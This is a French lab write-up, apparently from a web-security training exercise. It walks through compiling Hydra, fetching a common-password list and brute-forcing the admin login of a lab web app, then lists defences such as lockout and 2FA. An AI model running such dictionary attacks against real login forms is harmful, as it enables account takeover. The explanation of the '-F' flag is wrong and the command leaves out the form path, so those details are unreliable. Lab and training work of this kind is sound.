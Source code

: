 # Exploit 05 - Password bruteforcing

# Installation et utilisation de Hydra

Hydra est un outil de force brute open source conçu pour tenter de récupérer des mots de passe en effectuant des tentatives de connexion sur un serveur distant. Voici comment installer et utiliser Hydra à partir de son dépôt GitHub.

## Installation

1. **Clonez le dépôt Hydra** :
    Ouvrez un terminal et exécutez la commande suivante pour cloner le dépôt Hydra depuis GitHub :
    ```bash
    git clone https://github.com/vanhauser-thc/thc-hydra.git
    ```

2. **Accédez au dossier Hydra** :
    Changez de répertoire pour aller dans le dossier cloné :
    ```bash
    cd thc-hydra
    ```

3. **Configuration et compilation** :
    Configurez et compilez Hydra en exécutant les commandes suivantes :
    ```bash
    ./configure
    make
    ```

4. **Telechargement du dictionnaire de mots de passes** :
    ```bash
    wget https://lucidar.me/fr/security/files/100-most-common-passwords.txt
    mv 100-most-common-passwords.txt password.txt
    ```

## Utilisation

Tentez une connexion pour obtenir la page `/WrongAnswer`

Pour tester une connexion avec un utilisateur administrateur utilisez la commande suivante :

```bash
./hydra -l admin -P ../password.txt -F -o hydra.log 192.168.56.101 http-get-form
```

- `-l admin` spécifie l'utilisateur que nous essayons de pirater.
- `-P ../password.txt` indique le chemin vers un fichier contenant un dictionnaire de mots de passe.
- `-F` active le mode de force brute.
- `-o hydra.log` spécifie le fichier dans lequel stocker les résultats.
- `192.168.56.101` est l'adresse IP du site cible.
- `/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif` est l'URL avec nos variables `USER` et `PASS` qui seront utilisées pour tester tous les mots de passe du dictionnaire.

Cette commande tente de se connecter en utilisant différents mots de passe du dictionnaire jusqu'à ce qu'elle trouve un mot de passe qui fonctionne, en affichant les résultats dans le fichier `hydra.log`.

## Protection contre ce genre de cas

Pour renforcer la sécurité des systèmes contre les attaques par force brute, plusieurs mesures importantes doivent être prises :

1. **Utilisation de mots de passe complexes**
   - Encourager les utilisateurs à créer des mots de passe longs et complexes, comprenant des lettres majuscules et minuscules, des chiffres et des caractères spéciaux.

2. **Limitation des tentatives de connexion**
   - Mettre en place des mécanismes pour limiter le nombre de tentatives de connexion infructueuses, en bloquant temporairement ou définitivement les comptes après un certain nombre d'échecs.

3. **Authentification multi-facteurs (2FA)**
   - Activer l'authentification à deux facteurs ajoute une couche supplémentaire de sécurité, rendant plus difficile pour un attaquant d'accéder au compte même s'il obtient le mot de passe.

4. **Surveillance des activités suspectes**
   - Surveiller de près les activités sur le réseau et les logs d'accès pour identifier rapidement les tentatives d'attaque par force brute.

5. **Utilisation de CAPTCHA**
   - Intégrer des tests CAPTCHA dans les formulaires de connexion pour distinguer les humains des bots automatisés.